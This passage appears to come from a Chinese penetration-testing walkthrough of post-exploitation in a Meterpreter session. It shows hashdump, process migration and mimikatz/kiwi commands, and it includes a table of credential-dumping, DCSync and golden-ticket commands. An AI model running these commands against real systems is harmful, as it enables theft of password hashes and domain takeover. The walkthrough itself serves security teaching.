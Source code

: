 先前有看到系统是 64 位的

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtknyjVbOmyULlzTZ1TNZNzLGzS0nmFXN0sfh546rFYnXichBibEbtQXLJg/640?wx_fmt=png)

使用自带的 hashdump 抓取 hash  

```
run hashdump
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkCibka7PfA9DIJTezS7tKU4Sp49bJCAh4nf2thEHNDDlJ5EwnHc4LAaA/640?wx_fmt=png)

使用下 mimikatz 抓，进程需要先迁移到 64 位的  

```
ps
migrate 452
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkJTAsDCbCExH6vuSCxlVwxcs1OXWWIGLI9CImvAq2ux0K2ZXcjNTL4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkic875g60ibdvI0VkS2zia6x3Nr7uWeOKicteZKB4KDJEn24RtkicaMgqUaQ/640?wx_fmt=png)

此处输入？，可以看下 kiwi

没有可以 load mimikatz

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkLMnj6GoXFU4ceFZeuico8JbPFFpJUT6p94kZYtuB8ia9FMhv8Xuzdcicg/640?wx_fmt=png)

```
creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

```
lsa_dump_sam
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkWAkx0F7ygGTpdC33ia2IR7Cr0JJtgFlE65sMXQbb1nOYm6mlib4gGhvg/640?wx_fmt=png)
